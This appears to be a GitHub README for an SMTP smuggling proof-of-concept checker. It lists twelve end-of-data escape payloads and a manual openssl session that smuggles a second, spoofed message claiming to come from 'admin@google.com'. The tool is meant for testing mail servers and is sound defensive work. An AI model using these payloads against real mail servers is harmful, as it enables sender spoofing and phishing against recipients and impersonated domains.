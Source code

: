 # smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

    
usage: smtp_smuggler_poc.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE]

Send mail with TLS und AUTH PLAIN.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-Servername DNS or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL)
  --user USER      SMTP-userername will automatically promts for pw
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def

```


#### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!
#
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@server.com --rcpt vic@server.com --mode def
```

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3
>
> 
<hr>

### Testing of postfix mailserver for example (localhost port 25 auth plain login (optional)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)

<hr>

### Testing these 12 payload strings:
##### Smgggling Strings (0-11):

- 0 - smtp_smuggle_escape = '\r\n.\r'
- 1 - smtp_smuggle_escape = '\r.\r'
- 2 - smtp_smuggle_escape = '\r\n\x00.\r'
- 3 - smtp_smuggle_escape = '\r\n\x00.\n'
- 4 - smtp_smuggle_escape = \r\n\x00.\r\n
- 5 - smtp_smuggle_escape = \r\n.\x00\r\n
- 6 - smtp_smuggle_escape = '\r\n.'
- 7 - smtp_smuggle_escape = \n.\r\n
- 8 - smtp_smuggle_escape = \r.\r\n
- 9 - smtp_smuggle_escape = \n\n.\r\n
- 10 - smtp_smuggle_escape = \r\n.\r
- 11 - smtp_smuggle_escape = \n.\n

<hr>


### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

